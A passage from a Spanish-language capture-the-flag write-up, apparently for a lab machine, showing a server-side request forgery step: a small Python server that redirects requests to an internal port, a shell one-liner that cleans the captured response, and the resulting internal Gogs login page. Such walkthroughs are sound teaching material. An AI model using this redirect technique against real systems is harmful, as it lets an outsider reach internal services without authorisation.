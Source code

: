 El esquema quedaría:

![imagen 7](Pasted image 20230103190240.png)

El script para redireccionar la petición es el siguiente:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(301)
        self.send_header('Location', 'http://10.10.11.176:3000')
        self.end_headers()

httpd = HTTPServer(('0.0.0.0', 80), RedirectHandler)
httpd.serve_forever()
```

Rellenamos todos los campos, clicamos en ***Test*** y obtendremos en siguiente *body* (Después de recibir la respuesta por http://10.10.14.11:81, la he guardado en un archivo *info.txt* y le he aplicado el siguiente *oneliner* para obtener la información importante):

```bash
cat info.txt | jq .body | sed 's/\\n/\n/g' | sed 's/\\t/\t/g' | html2text | sed '/^\s*$/d'
```

Obtenemos:

```python
 Go Git Service\" />
 a painless self-hosted Git Service written in Go\" />
 self-hosted, gogs\">
" href=\"/img/favicon.png\" />
Please enable JavaScript in your browser!
" id=\"header-nav\">
">
  Help
">
  Explore
">
[\"logo\"]
****** Gogs ******
***** A painless self-hosted Git service written in Go *****
[Unknown INPUT type]
" id=\"username\" name=\"uname\" type=\"text\" placeholder=\"Username or E-
mail\"/>
" name=\"password\" type=\"password\" placeholder=\"Password\"/> [Unknown INPUT
type]
">Sign In
" id=\"register-button\">Register
 
">
">
">
 Easy to install
Simply run_the_binary for your platform. Or ship Gogs with Docker or Vagrant,
or get it packaged.
">
">
 Cross-platform
Gogs runs anywhere Go can compile for: Windows, Mac OS X, Linux, ARM, etc.
Choose the one you love!
">
">
 Lightweight
Gogs has low minimal requirements and can run on an inexpensive Raspberry Pi.
```